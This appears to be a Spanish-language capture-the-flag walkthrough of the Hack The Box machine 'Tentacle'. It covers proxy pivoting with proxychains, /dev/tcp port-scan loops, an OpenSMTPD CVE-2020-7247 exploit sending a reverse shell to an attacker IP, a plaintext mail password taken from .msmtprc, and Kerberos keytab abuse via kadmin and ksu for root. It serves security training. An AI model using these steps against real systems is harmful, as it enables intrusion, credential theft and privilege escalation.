








```bash
ping -c 3 10.10.10.224
PING 10.10.10.224 (10.10.10.224) 56(84) bytes of data.
64 bytes from 10.10.10.224: icmp_seq=1 ttl=63 time=130 ms
64 bytes from 10.10.10.224: icmp_seq=2 ttl=63 time=130 ms
64 bytes from 10.10.10.224: icmp_seq=3 ttl=63 time=131 ms
```

## Recon

```bash
sudo nmap -p- --open --min-rate 5000 -n -vv -Pn 10.10.10.224 -oG allPorts
nmap -sCV -p 22,53,88,3128 10.10.10.224 -oN targeted
```

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-22 16:52 EDT
Nmap scan report for 10.10.10.224
Host is up (0.13s latency).

PORT     STATE SERVICE      VERSION
22/tcp   open  ssh          OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 8d:dd:18:10:e5:7b:b0:da:a3:fa:14:37:a7:52:7a:9c (RSA)
|   256 f6:a9:2e:57:f8:18:b6:f4:ee:03:41:27:1e:1f:93:99 (ECDSA)
|_  256 04:74:dd:68:79:f4:22:78:d8:ce:dd:8b:3e:8c:76:3b (ED25519)
53/tcp   open  domain       ISC BIND 9.11.20 (RedHat Enterprise Linux 8)
| dns-nsid: 
|_  bind.version: 9.11.20-RedHat-9.11.20-5.el8
88/tcp   open  kerberos-sec MIT Kerberos (server time: 2025-07-22 20:52:08Z)
3128/tcp open  http-proxy   Squid http proxy 4.11
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/4.11
Service Info: Host: REALCORP.HTB; OS: Linux; CPE: cpe:/o:redhat:enterprise_linux:8

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.75 seconds
```

```bash
echo "10.10.10.224 realcorp.htb" | sudo tee -a /etc/hosts
```



## DNS Enum

```bash
dnsenum --dnsserver 10.10.10.224 --threads 50 -f /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt realcorp.htb

Brute forcing with /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:
______________________________________________________________________________________

ns.realcorp.htb.                         259200   IN    A        10.197.243.77
proxy.realcorp.htb.                      259200   IN    CNAME    ns.realcorp.htb.
ns.realcorp.htb.                         259200   IN    A        10.197.243.77
wpad.realcorp.htb.                       259200   IN    A        10.197.243.31
```

```bash
10.10.10.224 realcorp.htb
10.197.243.77 proxy.realcorp.htb 
10.197.243.31 wpad.realcorp.htb
```

### Proxychains

```bash
nvim /etc/proxychains4.conf

http 10.10.10.224 3128
http 127.0.0.1 3128
http 10.197.243.77 3128
```


```bash
#!/bin/bash

hosts=("10.197.243.77 10.197.243.31")

for host in ${hosts[@]}; do
  echo -e "\n[+]Scanning ports in $host\n"
  for port in $(seq 1 10000); do
    timeout 1 proxychains4 bash -c "echo '' > /dev/tcp/$host/$port" 2>/dev/null && echo -e "\t[+] Port: $port - OPEN!" &
  done
  wait
done
```

```bash
[+]Scanning ports in 10.197.243.77

	[+] Port: 53 - OPEN!
	[+] Port: 88 - OPEN!
	[+] Port: 464 - OPEN!
	[+] Port: 3128 - OPEN!

[+]Scanning ports in 10.197.243.31

	[+] Port: 22 - OPEN!
	[+] Port: 88 - OPEN!
	[+] Port: 80 - OPEN! [Interesting]
	[+] Port: 53 - OPEN!
	[+] Port: 749 - OPEN!
	[+] Port: 464 - OPEN!
	[+] Port: 3128 - OPEN!
```

```bash
proxychains -q curl -s http://wpad.realcorp.htb | batcat --style=plain

<html>
<head><title>403 Forbidden</title></head>
<body bgcolor="white">
<center><h1>403 Forbidden</h1></center>
<hr><center>nginx/1.14.1</center>
</body>
</html>
```

Si buscamos wpad pentesting obtendremos informacion dondre podemos obtener un archivo llamado wpad.dat [abusando-de-wpad-para-implantar-ficheros-pac](https://www.hackplayers.com/2016/05/abusando-de-wpad-para-implantar-ficheros-pac.html)

```bash
proxychains -q curl -s http://wpad.realcorp.htb/wpad.dat | batcat --style=plain

function FindProxyForURL(url, host) {
    if (dnsDomainIs(host, "realcorp.htb"))
        return "DIRECT";
    if (isInNet(dnsResolve(host), "10.197.243.0", "255.255.255.0"))
        return "DIRECT"; 
    if (isInNet(dnsResolve(host), "10.241.251.0", "255.255.255.0"))
        return "DIRECT"; 
 
    return "PROXY proxy.realcorp.htb:3128";
}
```

```bash
proxychains -q wget http://wpad.realcorp.htb/wpad.dat
```

#### Segmento B

`10.241.251.0`

```bash
#!/bin/bash

for port in 21 22 25 80 88 443 445 8080 8000 8081; do
  for i in $(seq 1 254); do
    proxychains -q timeout 1 bash -c "echo '' > /dev/tcp/10.241.251.$i/$port" 2>/dev/null && echo "[+] Port $port - Open on host 10.241.251.$i" &
  done
  wait
done
```

```bash
./scanning.sh 

[+] Port 22 - Open on host 10.241.251.1
[+] Port 25 - Open on host 10.241.251.113 [Service SMTPD]
[+] Port 88 - Open on host 10.241.251.1
```

La manera en la que podemos ver este segmento es a traves de proxychains que tenemos configurado nuestro archivo proxychains4.conf:



Es decir que saltamos de ``10.10.10.224`` -> ``127.0.0.1`` -> ``10.197.243.77``.

He tenido problemas con nmap para enumerar puertos con proxychains, asi que con un comando intentare obtener la version del puerto 25 de la 10.241.251.113.

```bash
proxychains -q timeout 1 bash -c "echo 'QUIT' | nc -w 1 10.241.251.113 25" 2>/dev/null

220 smtp.realcorp.htb ESMTP OpenSMTPD 221 2.0.0 Bye
```

## CVE-2020-7247

https://github.com/QTranspose/CVE-2020-7247-exploit.git

```bash
./kerbrute userenum -d realcorp.htb --dc 10.10.10.224 ~/Documents/HTB/Tentacle/content/user 
```



`sudo apt update && sudo apt install python3-pwntools `

```bash
proxychains python3 exploit.py 10.241.251.113 25 10.10.14.18 4444 j.nakazawa@REALCORP.HTB

[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[▘] Opening connectio[▝][▖]  241.251.113 on port 25[▘] ying 10.241.251.113
[+] Opening connection to 10.241.251.113 on port 25: Done
[+] Target port is running OpenSMTPD
[+] Sending love letter to j.nakazawa@REALCORP.HTB: Done
```



```bash
ip a

1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
3: eth0@if4: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 0a:67:d7:0a:5e:9d brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.241.251.113/24 brd 10.241.251.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::867:d7ff:fe0a:5e9d/64 scope link 
       valid_lft forever preferred_lft forever

root@smtp:/# hostname
hostname
smtp.realcorp.htb
```

```bash
root@smtp:/home/j.nakazawa# cat .msmtprc

cat .msmtprc
# Set default values for all following accounts.
defaults
auth           on
tls            on
tls_trust_file /etc/ssl/certs/ca-certificates.crt
logfile        /dev/null

# RealCorp Mail
account        realcorp
host           127.0.0.1
port           587
from           j.nakazawa@realcorp.htb
user           j.nakazawa
password       sJB}RM>6Z~64_
tls_fingerprint	C9:6A:B9:F6:0A:D4:9C:2B:B9:F6:44:1F:30:B8:5E:5A:D8:0D:A5:60

# Set a default account
account default : realcorp
```

SSH



`gssap-with-mic`

https://unix.stackexchange.com/questions/90383/ssh-authentication-using-gssapi-keyex-or-gssapi-with-mic-publickey-not-permitte

```bash
[libdefaults]
    default_realm = REALCORP.HTB

[realms]
    REALCORP.HTB = {
        kdc = srv01.realcorp.htb:88
        
[domain_realm]
    .realcorp.htb = REALCORP.HTB
    realcorp.htb = REALCORP.HTB
```

```bash
sudo ntpdate 10.10.10.224
```

```bash
kinit j.nakazawa 

Password for j.nakazawa@REALCORP.HTB: 
```

```bash
klist

Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: j.nakazawa@REALCORP.HTB

Valid starting       Expires              Service principal
07/22/2025 23:30:23  07/23/2025 23:30:23  krbtgt/REALCORP.HTB@REALCORP.HTB
	renew until 07/22/2025 23:30:23
```

```bash
ssh j.nakazawa@10.10.10.224

Activate the web console with: systemctl enable --now cockpit.socket

Last failed login: Wed Jul 23 05:16:32 BST 2025 from 10.10.14.18 on ssh:notty
There were 48 failed login attempts since the last successful login.
Last login: Thu Dec 24 06:02:06 2020 from 10.10.14.2
[j.nakazawa@srv01 ~]
```

```bash
cat /etc/passwd | grep "bash"

root:x:0:0:root:/root:/bin/bash
j.nakazawa:x:1000:1000::/home/j.nakazawa:/bin/bash
admin:x:1011:1011::/home/admin:/bin/bash
```

```bash
[j.nakazawa@srv01 ~]$ find / -perm -4000 2>/dev/null

/usr/libexec/sssd/ldap_child
/usr/libexec/sssd/proxy_child
/usr/libexec/sssd/krb5_child
/usr/libexec/sssd/selinux_child
/usr/libexec/dbus-1/dbus-daemon-launch-helper
/usr/libexec/cockpit-session
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/grub2-set-bootflag
/usr/sbin/userhelper
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/su
/usr/bin/umount
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/crontab
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/at
/usr/bin/fusermount
/usr/bin/ksu
```

```bash
 cat /etc/os-release
 
NAME="CentOS Linux"
VERSION="8"
ID="centos"
ID_LIKE="rhel fedora"
VERSION_ID="8"
PLATFORM_ID="platform:el8"
PRETTY_NAME="CentOS Linux 8"
ANSI_COLOR="0;31"
CPE_NAME="cpe:/o:centos:centos:8"
HOME_URL="https://centos.org/"
BUG_REPORT_URL="https://bugs.centos.org/"
CENTOS_MANTISBT_PROJECT="CentOS-8"
CENTOS_MANTISBT_PROJECT_VERSION="8"
```

```bash
cat /etc/crontab

SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed
* * * * * admin /usr/local/bin/log_backup.sh
```

```bash
#!/bin/bash

/usr/bin/rsync -avz --no-perms --no-owner --no-group /var/log/squid/ /home/admin/
cd /home/admin
/usr/bin/tar czf squid_logs.tar.gz.`/usr/bin/date +%F-%H%M%S` access.log cache.log
/usr/bin/rm -f access.log cache.log
```

```bash
id

uid=1000(j.nakazawa) gid=1000(j.nakazawa) groups=1000(j.nakazawa),23(squid),100(users) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

`cd /var/log/squid/`

https://web.mit.edu/kerberos/krb5-devel/doc/user/user_config/k5login.html

```bash
echo 'j.nakazawa@REALCORP.HTB' > .k5login
```

## Admin

```bash
find / -type f -group admin 2>/dev/null | grep -v -E "proc|cgroup"

/home/admin/squid_logs.tar.gz.2025-07-23-063401
/usr/local/bin/log_backup.sh
/etc/krb5.keytab
```

**krb5.keytab** es un componente crítico en sistemas que usan Kerberos para autenticación. Funciona como un almacén seguro de credenciales para servicios o hosts, permitiéndoles autenticarse sin requerir contraseñas manuales.

https://web.mit.edu/kerberos/krb5-devel/doc/basic/keytab_def.html

```bash
k [TAB][TAB]
```



```bash
bash-4.4$ klist -h
	[SNIP...]
	-k specifies keytab
	 [snip...]
```

```bash
klist -k /etc/krb5.keytab

Keytab name: FILE:/etc/krb5.keytab
KVNO Principal
---- --------------------------------------------------------------------------
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
```

Kadmin es una herramienta administrativa de kerberos para gestionar usuarios, politicas y pincipals.

Iniciamos una sesion administrativa en kerberos autenticandonos automaticamente usando keytab (archivos de claves) en lugar de pedir contraseña.

```bash
kadmin -kt /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB
```



Agregamos un nuevo principals (usuario/servicio) en kerberos con el nombre root.

```bash
addprinc root@REALCORP.HTB
ola
ola
exit
```

Y con ksu cambiamos al usuario que creamos, en este caso a root.

```bash
ksu
```

